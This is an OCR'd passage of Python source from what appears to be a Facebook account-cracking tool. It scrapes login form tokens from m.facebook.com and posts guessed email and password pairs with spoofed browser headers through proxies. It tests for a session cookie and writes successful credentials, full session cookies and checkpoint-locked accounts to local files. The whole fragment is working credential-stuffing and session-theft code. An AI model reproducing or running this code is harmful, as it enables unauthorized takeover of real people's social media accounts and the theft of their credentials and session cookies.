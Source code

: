 			"dnt":f"{str(rr(1,9))}",
			"x-requested-with":"mark.via.gp",
			"sec-fetch-site":"same-origin",
			"sec-fetch-mode":"cors",
			"sec-fetch-user":"empty",
			"sec-fetch-dest":"document",
			"referer":f"https://{url}/",
			"accept-encoding":"gzip, deflate br",
			"accept-language":f"{ver},en;q=0.8"})
			link = ses.get('https://m.facebook.com/login/?email='+idf).text
			date = {'lsd':re.search('name="lsd" value="(.*?)"', str(link)).group(1),'jazoest':re.search('name="jazoest" value="(.*?)"', str(link)).group(1),'m_ts':re.search('name="m_ts" value="(.*?)"', str(link)).group(1),
'li':re.search('name="li" value="(.*?)"', str(link)).group(1),'email':idf,'pass':pw}
			ses.headers.update({'Host': url,
			'cache-control': 'max-age=0',
			'upgrade-insecure-requests': '1',
			'origin': 'https://'+url,
			'content-type': 'application/x-www-form-urlencoded',
			'user-agent': ua,
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'sec-fetch-site': 'same-origin',
			'sec-fetch-mode': 'cors',
			'sec-fetch-user': 'empty',
			'sec-fetch-dest': 'document',
			'referer': f'https://{url}/login/?email='+idf,
			'accept-encoding':'gzip, deflate br',
			'accept-language':f'{ver},en;q=0.8'})
			links = rc([f"https://{url}/login/login/device-based/regular/login/?shbl=1&refsrc=deprecated"])
			CYXIEON_XR = ses.post(links,data=date,allow_redirects=False,proxies=proxs)
			if "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=CYXIEON_XR.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				kukis = kuki.replace(f'c_user={idf};datr','sb')
				print(f"{kun}╭────────────────────────────╮{puti}")
				tree = Tree("")
				tree.add(f"\r{hijo}{idf}{puti}").add(f"{hijo}{pw}{puti}").add(f"{mer}{tahun(idf)}{puti}")
				tree.add(f"{hijo}{kuki}{puti}").add(f"{mer}{ua}{puti}")
				print(f"{kun}╰────────────────────────────╯{puti}")
				prints(tree)
				open('CYXIEON-OK/'+'CYXIEON-OK.txt','a').write(idf+'|'+pw+'|'+'\n')
				open('CYXIEON-OK/'+'CYXIEON-WhithCookies.txt','a').write(idf+'|'+pw+'|'+kuki+'|''\n')
				break			
			elif "checkpoint" in CYXIEON_XR.cookies.get_dict().keys():
				print(f"{kun}╭────────────────────────────╮{puti}")
				tree = Tree("")
				tree.add(f"\r{kun}{idf}{puti}").add(f"{kun}{pw}{puti}")
				tree.add(f"{mer}{tahun(idf)}{puti}").add(f"{mer}{ua}{puti}")
				print(f"{kun}╰────────────────────────────╯{puti}")
				prints(tree)
				open('CYXIEON-CP/'+'CYXIEON-CP.txt','a').write(idf+'|'+pw+'|'+'\n')
				akune.append(idf+'|'+pw)
				ceker(idf,pw)
				cp+=1
				break	
				